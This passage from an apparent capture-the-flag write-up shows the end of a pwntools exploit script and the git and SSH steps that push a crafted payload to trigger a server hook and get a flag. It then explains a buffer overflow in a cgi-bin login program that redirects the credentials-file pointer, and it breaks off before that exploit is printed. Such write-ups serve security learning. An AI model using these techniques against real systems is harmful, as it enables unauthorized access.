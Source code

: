 ```python
r.sendline(payload)
r.shutdown('send')
r.interactive()

```

We then check out the repoistory from the server using the key found in the image, add the file, push the changes back to the server and then finally pull the changes back down to bet the output of the post-receive hook to get the flag.

```bash

$ cat <<EOF>>~/.ssh/config
Host TabNabbed
    Hostname tabnabbed.challenges.adversary.zone
    Port 23230
    User git
    IdentityFile .../ctf/crowdstrike2021/space-jackal/tab-nabbed/developers.key
    IdentitiesOnly yes
EOF

$ git clone TabNabbed:hashfunctions.git
$ cd hashfunctions
$ python3 ../solve.py
$ git add payload.dat
$ git commit -m "flag"
$ git push
$ git pull
$ strings payload.dat     
...
CS{th3_0ne_4nd_0nly_gith00k}
...
```

Flag: `CS{th3_0ne_4nd_0nly_gith00k}`

## Protective Pengiun

Adversary number two is the Protective Penguin. Unfortunately, I didn't really catch the overall theme here.

### Portal

We are provided with the code for a web server running a cgi-bin program to authenticate users. The program base64 decodes the username and password into a buffer. The credentials are concatenated with a colon between and compared against entries in a text file. Unfortunately the buffer is too small and we can overflow it. The program has a stack cookie and we have no memory leak but we can overwrite a single pointer pointing to the filename of the users list. Since the file is opened after the credentials are decoded and the buffer overflowed we can replace the path to the user list with a different string. The binary contains the strings "/lib64/ld-linux-x86-64.so.2" and fortunately this file contains strings with a colon in them such as "conflict processing: %s". The following exploit performs the attack:
